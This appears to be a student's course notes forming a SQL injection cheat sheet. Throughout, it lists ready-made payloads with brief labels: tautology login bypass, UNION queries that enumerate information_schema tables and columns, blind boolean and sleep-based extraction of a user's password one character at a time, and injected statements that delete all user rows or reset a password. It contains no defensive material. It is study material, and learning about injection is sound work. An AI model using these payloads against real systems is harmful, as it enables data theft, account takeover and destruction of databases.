 # SC Topic 4 - SQL Injection

###### tags: #SC 

## Table of Contents
```toc
```
## SQL Injection Cheat Sheet
- Basic SQL Injection
```
1' or 1=1; -- -  
```
- ORDER BY Attack (column number)
```
1' order by 1; -- -
```
- UNION Attack
```
1' union select null; -- -
```
- `information_schema` Attacks (Use fillers to match number of columns in table)
```
1' union select 1,2,table_schema from information_schema.tables;-- - 
1' union select 1,table_name,table_schema from information_schema.tables; -- - 
1' union select 1,column_name,table_schema from information_schema.columns where table_name='tablename'; -- - 
```
- Using LIMIT to limit number of rows to display
```
1' union select 1,column2,column3 from table_name LIMIT 1; -- - 
```
- Using OFFSET:
```
1' union select 1,column2,column3 from table_name OFFSET 3; -- - 
```
- Using CONCAT to add two strings together
```
1' union select concat("hello", "world")
```
- Using the CHAR function to convert ASCII values to character values
```
PRINT 'a' + CHAR(9)  + 'b' -- horizontal tab 
PRINT 'a' + CHAR(10) + 'b' -- line feed 
PRINT 'a' + CHAR(11) + 'b' -- vertical tab 
PRINT 'a' + CHAR(13) + 'b' -- carriage return
```

- Attacking with IF and SUBSTRNG statements
> SUBSTRING() extracts a character from a string via its index

```
0' or userid=if([condition],'1','0'); -- - 
0' or userid=if((select substr(password,1,1) from user where userid='1')='a','1','0'); -- - 
0' or userid=if((select substr(password,1,1) from user where userid='1')='b','1','0'); -- - 

1' or userid=if((select substr(password,1,1) from user where userid='1')='a',sleep(0.3),'0'); -- - 
1' or userid=if((select substr(password,1,1) from user where userid='1')='abc',sleep(0.3),'0'); -- - 
```

**More attack scenarios:**
- `delete from user where userid = '${userid}'`
```
delete from user where userid = '' or 1=1;-- - '${userid}';
```
- `update user set age='${age}' where userid = '${userid}'`
```
update user set age='10', password='123';-- - '${age}' where userid='${userid}';
```
